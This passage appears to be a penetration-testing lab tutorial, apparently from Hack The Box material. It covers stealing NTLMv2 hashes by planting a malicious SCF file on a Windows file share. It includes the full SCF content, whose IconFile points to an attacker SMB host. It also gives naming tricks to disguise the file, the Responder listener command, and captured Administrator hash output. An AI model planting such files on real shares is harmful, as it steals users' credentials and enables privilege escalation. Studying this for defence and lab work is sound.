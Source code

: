  **SCF on a File Share**

A Shell Command File (SCF) is used by Windows Explorer to move up and down directories, show the Desktop, etc. An SCF file can be manipulated to have the icon file location point to a specific UNC path and have Windows Explorer start an SMB session when the folder where the .scf file resides is accessed. If we change the IconFile to an SMB server that we control and run a tool such as [Responder](https://github.com/lgandx/Responder), [Inveigh](https://github.com/Kevin-Robertson/Inveigh), or [InveighZero](https://github.com/Kevin-Robertson/InveighZero), we can often capture NTLMv2 password hashes for any users who browse the share. This can be particularly useful if we gain write access to a file share that looks to be heavily used or even a directory on a user's workstation. We may be able to capture a user's password hash and use the cleartext password to escalate privileges on the target host, within the domain, or further our access/gain access to other resources.

**Malicious SCF File**

In this example, let's create the following file and name it something like `@Inventory.scf` (similar to another file in the directory, so it does not appear out of place). We put an `@` at the start of the file name to appear at the top of the directory to ensure it is seen and executed by Windows Explorer as soon as the user accesses the share. Here we put in our `tun0` IP address and any fake share name and .ico file name.


- Malicious file :
```shell
[Shell]
Command=2
IconFile=\\10.10.14.3\share\legit.ico
[Taskbar]
Command=ToggleDesktop
```

**Starting Responder**

Next, start Responder on our attack box and wait for the user to browse the share. If all goes to plan, we will see the user's NTLMV2 password hash in our console and attempt to crack it offline.

- Listening :
```shell
p4v1c@htb[/htb]$ sudo responder -wrf -v -I tun0

[+] Listening for events...
[SMB] NTLMv2-SSP Client   : 10.129.43.30
[SMB] NTLMv2-SSP Username : WINLPE-SRV01\Administrator
[SMB] NTLMv2-SSP Hash     : Administrator::WINLPE-SRV01:815c504e7b06ebda:afb6d3b195be4454b26959e754cf7137:01010...<SNIP>...
```

- Tools to listen : 
https://github.com/lgandx/Responder
https://github.com/Kevin-Robertson/Inveigh
https://github.com/Kevin-Robertson/InveighZero


**Capturing Hashes with a Malicious .lnk File**

This attack no longer works on Server 2019 hosts, but we can achieve the same effect using a malicious [.lnk](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-shllink/16cb4ca1-9339-4d0c-a68d-bf1d6cc0f943) file. We can use various tools to generate a malicious .lnk file, such as [Lnkbomb](https://github.com/dievus/lnkbomb), as it is not as straightforward as creating a malicious .scf file. We can also make one using a few lines of PowerShell:
